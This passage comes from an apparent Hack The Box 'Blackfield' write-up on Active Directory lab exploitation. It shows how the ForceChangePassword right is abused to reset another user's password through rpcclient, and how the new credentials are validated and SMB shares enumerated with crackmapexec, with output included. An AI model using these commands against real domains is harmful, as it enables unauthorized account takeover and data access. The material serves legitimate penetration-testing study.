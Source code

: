 Luckily, the user **support** has the [ForceChangePassword](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces) permission over the **audit2020** user. It means that we can change **audit2020** password without knowing its current password.

![image-center](/images/htb/htb_blackfield_bloodhound_support.png){: .align-center}

Changing **audit2020** password using our Kali machine is [easy](https://malicious.link/post/2017/reset-ad-user-password-with-linux/) and can be done with [rpcclient](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html).

```bash
$ rpcclient -U blackfield.local/support 10.129.140.139
Enter BLACKFIELD.LOCAL\support's password: 
rpcclient $> setuserinfo audit2020 23 Qwerty1!
rpcclient $> 
```

Once the credentials are updated, we can check if the change worked.

```bash
$ crackmapexec smb 10.129.140.139 -d blackfield.local -u audit2020 -p 'Qwerty1!'
SMB         10.129.140.139  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:blackfield.local) (signing:True) (SMBv1:False)
SMB         10.129.140.139  445    DC01             [+] blackfield.local\audit2020:Qwerty1! 
```

Yay, another valid account :)

## More Shares

Back to the shares we found in the first part, using **crackmapexec** and the `--shares` switch , we can see that **audit2020** can read the **forensic** folder.

```bash
$ crackmapexec smb 10.129.140.139 -d blackfield.local -u audit2020 -p 'Qwerty1!' --shares
SMB         10.129.140.139  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:blackfield.local) (signing:True) (SMBv1:False)
SMB         10.129.140.139  445    DC01             [+] blackfield.local\audit2020:Qwerty1! 
SMB         10.129.140.139  445    DC01             [+] Enumerated shares
SMB         10.129.140.139  445    DC01             Share           Permissions     Remark
SMB         10.129.140.139  445    DC01             -----           -----------     ------
SMB         10.129.140.139  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.140.139  445    DC01             C$                              Default share
SMB         10.129.140.139  445    DC01             forensic        READ            Forensic / Audit share.
SMB         10.129.140.139  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.140.139  445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.140.139  445    DC01             profiles$       READ            
SMB         10.129.140.139  445    DC01             SYSVOL          READ            Logon server share 
```
